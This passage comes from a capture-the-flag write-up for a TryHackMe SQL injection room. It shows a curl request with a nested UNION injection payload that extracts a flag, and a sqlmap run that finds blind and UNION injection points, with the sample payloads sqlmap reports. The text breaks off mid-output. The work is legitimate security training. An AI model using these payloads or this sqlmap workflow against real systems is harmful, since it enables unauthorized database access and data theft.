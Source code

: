 Here we have that final query we ended with, now done via Curl:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s 'http://sqhell.thm/user?id=1337 union select "1 union select 1,flag,3,4 from flag-- -",2,3 from information_schema.tables where table_schema=database()' | grep THM
                                                    <li><a href="/post?id=1">THM{FLAG4:<HIDDEN>}</a></li>
```

## Flag 4 - Out-of-band - SQLMap Method

In all other flags we've seen how simple SQL injection and data retrieval is using SQLMap. For this particular flag we've found we need to use a query within a query to extract the flag. I'm not sure if there is a way to achieve this with SQLMap, but if there is I can't find the answer.

We can start the process as before:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap -u "http://sqhell.thm/user?id=1" -p "id" --dbs --dbms=mysql --threads 10
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.5#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:29:03 /2021-06-22/
[22:29:04] [INFO] testing connection to the target URL
[22:29:04] [INFO] checking if the target is protected by some kind of WAF/IPS
[22:29:04] [INFO] testing if the target URL content is stable
[22:29:05] [INFO] target URL content is stable
[22:29:05] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[22:29:05] [INFO] testing for SQL injection on GET parameter 'id'
[22:29:05] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:29:05] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="User")
[22:29:05] [INFO] testing 'Generic inline queries'
[22:29:05] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[22:29:05] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:29:05] [WARNING] time-based comparison requires larger statistical model, please wait..................... (done)
[22:29:16] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[22:29:31] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:29:31] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:29:31] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:29:31] [INFO] target URL appears to have 3 columns in query
[22:29:31] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 1578=1578

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
```